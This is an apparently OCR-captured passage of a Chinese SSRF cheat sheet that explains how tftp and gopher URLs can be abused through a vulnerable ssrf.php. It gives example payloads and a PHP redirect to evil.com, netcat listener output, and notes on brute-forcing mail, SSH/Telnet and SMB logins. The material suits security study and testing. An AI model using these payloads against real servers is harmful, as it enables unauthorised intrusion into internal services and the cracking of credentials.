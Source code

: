 

#### tftp:// 

简单文件传输协议是一种简单的锁步文件传输协议，它允许客户端从远程主机获取文件或将文件放到远程主机上。

```php
http://example.com/ssrf.php?url=tftp://evil.com:1337/TESTUDPPACKET

evil.com:# nc -lvup 1337
Listening on [0.0.0.0] (family 0, port 1337)
TESTUDPPACKEToctettsize0blksize512timeout3
```



#### imap/imaps/pop3/pop3s/smtp/smtps

爆破邮件用户名密码



#### telnet

SSH/Telnet匿名访问及爆破





#### smb/smbs

SMB匿名访问及爆破





#### **gopher://** 

Gopher是一种分布式的文档传递服务。它允许用户以无缝的方式探索、搜索和检索驻留在不同位置的信息。

```php
http://example.com/ssrf.php?url=http://attacker.com/gopher.php
gopher.php (host it on acttacker.com):-
<?php
   header('Location: gopher://evil.com:1337/_Hi%0Assrf%0Atest');
?>

evil.com:# nc -lvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 49398)
Hi
ssrf
test
```



##### gopher协议的格式

```
gopher://127.0.0.1:70/_ + TCP/IP数据
```
